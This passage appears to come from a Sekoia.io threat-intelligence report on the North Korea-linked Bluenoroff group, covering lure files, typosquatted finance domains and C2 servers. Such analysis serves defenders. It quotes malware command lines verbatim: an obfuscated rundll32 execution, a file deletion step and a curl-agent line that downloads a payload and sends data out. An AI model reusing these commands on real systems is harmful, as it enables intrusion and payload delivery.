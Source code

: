 

Figure 5. LinkedIn profile allegedly used by Bluenoroff

As of the time of writing, TDR analysts could no longer find this profile on LinkedIn. We assess this likely was a profile used by Bluenoroff after it was leaked to engage with their targets, possibly followed up by a delivery of malicious documents through the docsend sharing platform.
While Bluenoroff was seen leveraging updated VHD and CAB files to bypass the Mark-of-the-Web (MOTW) flag until the end of 2022, Sekoia.io did not observe these TTPs in 2023. It is almost certainly a reflection of Bluenoroff’s adaptation efforts after their TTPs were documented in open source, notably by Securelist. In March 2023, we observed new files (MSI file: 5c483473641807082e530744023044fd and One Note file: 4e05597d308d2368625dc19e86a9ca22) containing similar commands to those used in the VHD files reported by Kaspersky.

Those files were used to drop and execute 529c65521e8a07c8810b6d225f7e2a89 which is a downloader for a curl-agent that Sekoia.io analysts did not retrieve at the time of writing.
cmd.exe /c copy /b %s\system32\rund^ll3^2.e^xe %s\rdl.e^xe & %s\rdl.ex^e %s #1 %S
cmd /c timeout /t 10 & Del /f /q “%s” & attrib -s -h “%s” & rundll32 “%s” #1 %S
cmd /c timeout /t 10 & rundll32 “%s” #1 %S
curl -A cur1-agent -L %s -s -d dacurl -A cur1-agent -L %s -s -d dl

As per Sekoia.io analysts’ observations, the network infrastructure is used to host HTTP/HTTPS services leveraged by lure files. This infrastructure is used to download a later stage malware which often is a VBS acting as a backdoor, or a curl-agent downloader. During their investigation, Sekoia.io analysts created automatic trackers to monitor Bluenoroff’s infrastructure evolution. In previous activities, the intrusion set setup HTTP/HTTPS servers with specific characteristics used to host a dozen domains notably typosquatting IT, financial and investment companies.
Based on a TDR heuristic, we identified servers used to host domain typo-squatting legitimate organisations, notably pertaining to entities involved in fund management and venture fund, crypto assets and blockchain, located in Europe, Asia, and North America.



Figure 6. Financial and technology entities typo-squatted by Bluenoroff

Based on previous open source publications and our own knowledge of this intrusion set, we associate these domains to Bluenoroff with high confidence. A list of retrieved typosquatting domains is available to Sekoia.io’s customers in the Intelligence Center.
Whether Bluenoroff’s attempt to target these entities or simply masqueraded as those entities to target other individuals and / or organizations remains an intelligence gap at the time of writing. Regardless, Sekoia.io TDR analysts assess this is in line with past Bluenoroff’s activities, targeting finance-related institutions. Based on typosquatting domains and Sekoia.io attributed levels of confidence, we identified a strong focus on Asia and the U.S.. While this almost certainly stems from the fact that these regions are particularly active in the Fintech area, it is also likely part of Bluenoroff’s geographical targeting assignment. We also retrieved domains indicating a targeting of Laos and Thailand.



Figure 7. Bluenoroff targets since September 2022

Of note, we also observed that the group may use temporary C2 servers, when testing new techniques, that they then discard rapidly. For instance, in November 2022, Bluenoroff temporarily used a server to transition to using MSI and CAB files (149.28.247[.]34). Similarly, the intrusion set sporadically used a specific server when experimenting with chm (Windows Helper) files (172.86.122[.]181) in December 2022.
Conclusion
Sekoia.io analysts assess this activity is part of Bluenoroff’s SnatchCrypto campaign, active since 2017. It is in line with past observed malicious cyber activities, notably pertaining to Pyongyang’ strategic objective of revenue generation to evade sanctions. Of particular interest are Bluenoroff’s observed efforts to develop their offensive capabilities, notably including crossplatform languages to their toolset, and expanding their victimology through the targeting of multiple environments. Sekoia.io analysts assess Bluenoroff’s activities will almost certainly continue in the short to medium term.
IoCs & Technical Details
